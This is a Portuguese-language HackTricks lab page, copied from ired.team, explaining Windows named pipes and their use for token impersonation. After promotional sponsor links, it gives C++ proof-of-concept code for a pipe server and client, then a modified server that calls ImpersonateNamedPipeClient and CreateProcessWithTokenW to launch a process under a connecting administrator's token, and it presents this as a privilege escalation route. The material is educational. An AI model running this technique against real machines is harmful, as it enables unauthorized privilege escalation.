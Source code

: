 ## Impersonação de Cliente de Pipe Nomeado

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de segurança cibernética**? Você quer ver sua **empresa anunciada no HackTricks**? ou você quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Esta informação foi copiada de** [**https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation**](https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation)

## Visão Geral

Um `pipe` é um bloco de memória compartilhada que os processos podem usar para comunicação e troca de dados.

`Named Pipes` é um mecanismo do Windows que permite que dois processos não relacionados troquem dados entre si, mesmo que os processos estejam localizados em duas redes diferentes. É muito semelhante à arquitetura cliente/servidor, pois existem noções como `um servidor de pipe nomeado` e um `cliente de pipe nomeado`.

Um servidor de pipe nomeado pode abrir um pipe nomeado com um nome pré-definido e, em seguida, um cliente de pipe nomeado pode se conectar a esse pipe por meio do nome conhecido. Uma vez estabelecida a conexão, a troca de dados pode começar.

Este laboratório se preocupa com um código PoC simples que permite:

* criar um servidor de pipe nomeado burro de thread único que aceitará uma conexão de cliente
* servidor de pipe nomeado escrever uma mensagem simples no pipe nomeado para que o cliente de pipe possa lê-la

## Código

Abaixo está o PoC para o servidor e o cliente:

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
	LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
	LPVOID pipeBuffer = NULL;
	HANDLE serverPipe;
	DWORD readBytes = 0;
	DWORD readBuffer = 0;
	int err = 0;
	BOOL isPipeConnected;
	BOOL isPipeOpen;
	wchar_t message[] = L"HELL";
	DWORD messageLenght = lstrlen(message) * 2;
	DWORD bytesWritten = 0;

	std::wcout << "Creating named pipe " << pipeName << std::endl;
	serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);
	
	isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
	if (isPipeConnected) {
		std::wcout << "Incoming connection to " << pipeName << std::endl;
	}
	
	std::wcout << "Sending message: " << message << std::endl;
	WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);
	
	return 0;
}
```
{% endtab %}

{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
	LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
	HANDLE clientPipe = NULL;
	BOOL isPipeRead = true;
	wchar_t message[MESSAGE_SIZE] = { 0 };
	DWORD bytesRead = 0;

	std::wcout << "Connecting to " << pipeName << std::endl;
	clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
	
	while (isPipeRead) {
		isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
		std::wcout << "Received message: " << message;
	}

	return 0;
}
```
## Execução

Abaixo mostra o servidor de pipe nomeado e o cliente de pipe nomeado funcionando como esperado:

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22.png>)

Vale ressaltar que a comunicação de pipes nomeados por padrão usa o protocolo SMB:

![](<../../.gitbook/assets/Screenshot from 2019-04-04 23-51-48.png>)

Verificando como o processo mantém um identificador para o nosso pipe nomeado `mantvydas-first-pipe`:

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (1).png>)

Da mesma forma, podemos ver o cliente tendo um identificador aberto para o pipe nomeado:

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (2).png>)

Podemos até ver nosso pipe com powershell:
```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```
## Impersonação de Token

{% hint style="info" %}
Observe que, para impessoanar o token do processo do cliente, você precisa ter (o processo do servidor criando o pipe) o privilégio de token **`SeImpersonate`**
{% endhint %}

É possível para o servidor de pipe nomeado impessoanar o contexto de segurança do cliente de pipe nomeado, aproveitando uma chamada de API `ImpersonateNamedPipeClient`, que por sua vez altera o token do thread atual do servidor de pipe nomeado com o token do cliente de pipe nomeado.

Podemos atualizar o código do servidor de pipe nomeado assim para alcançar a impessoação - observe que as modificações são vistas na linha 25 e abaixo:
```cpp
int main() {
	LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
	LPVOID pipeBuffer = NULL;
	HANDLE serverPipe;
	DWORD readBytes = 0;
	DWORD readBuffer = 0;
	int err = 0;
	BOOL isPipeConnected;
	BOOL isPipeOpen;
	wchar_t message[] = L"HELL";
	DWORD messageLenght = lstrlen(message) * 2;
	DWORD bytesWritten = 0;

	std::wcout << "Creating named pipe " << pipeName << std::endl;
	serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);
	
	isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
	if (isPipeConnected) {
		std::wcout << "Incoming connection to " << pipeName << std::endl;
	}
	
	std::wcout << "Sending message: " << message << std::endl;
	WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);
	
	std::wcout << "Impersonating the client..." << std::endl;
	ImpersonateNamedPipeClient(serverPipe);
	err = GetLastError();	

	STARTUPINFO	si = {};
	wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
	PROCESS_INFORMATION pi = {};
	HANDLE threadToken = GetCurrentThreadToken();
	CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

	return 0;
}
```
Executando o servidor e conectando-se a ele com o cliente que está sendo executado sob o contexto de segurança administrator@offense.local, podemos ver que a thread principal do pipe do servidor nomeado assumiu o token do cliente do pipe nomeado - offense\administrator, embora o PipeServer.exe em si esteja sendo executado sob o contexto de segurança ws01\mantvydas. Parece ser uma boa maneira de escalar privilégios?
